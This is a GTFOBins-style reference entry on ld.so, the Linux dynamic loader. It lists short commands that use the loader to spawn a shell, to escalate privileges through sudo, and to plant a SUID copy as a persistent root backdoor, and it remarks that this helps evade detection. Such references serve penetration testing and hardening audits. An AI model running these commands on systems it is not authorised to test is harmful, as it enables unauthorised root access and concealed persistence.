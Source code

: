 # GTFOBin: ld.so

`ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

```
$ strings /proc/self/exe | head -1
/lib64/ld-linux-x86-64.so.2

```

It’s worth noting that the spawned process will be the loader, not the target executable, this might aid evasion. See https://shyft.us/posts/20230526_linux_command_proxy.html for more information.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
/lib/ld.so /bin/sh
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ld.so) .

./ld.so /bin/sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo /lib/ld.so /bin/sh
```